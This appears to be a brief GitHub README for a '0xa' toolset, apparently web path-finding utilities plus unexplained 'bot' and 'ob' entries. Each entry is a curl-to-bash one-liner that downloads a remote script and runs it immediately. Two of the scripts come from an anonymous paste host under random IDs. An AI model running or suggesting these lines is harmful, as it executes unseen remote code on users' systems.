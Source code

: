 # 0xa
## Web Path finder

### Locate
```code
bash <(curl -s https://raw.githubusercontent.com/tucommenceapousser/0xa/main/webpath.sh)
```

### find
```code
bash <(curl -s https://raw.githubusercontent.com/tucommenceapousser/0xa/main/findweb.sh)
```
### ***bot***
```
bash <(curl -s https://raw.githubusercontent.com/tucommenceapousser/0xa/main/dlbot.sh)
```
```
bash <(curl -s https://hastetrkn.replit.app/raw/ebeqewijor)
```


### ***ob:***
```
bash <(curl -s https://hastetrkn.replit.app/raw/bihaneqohu)
```
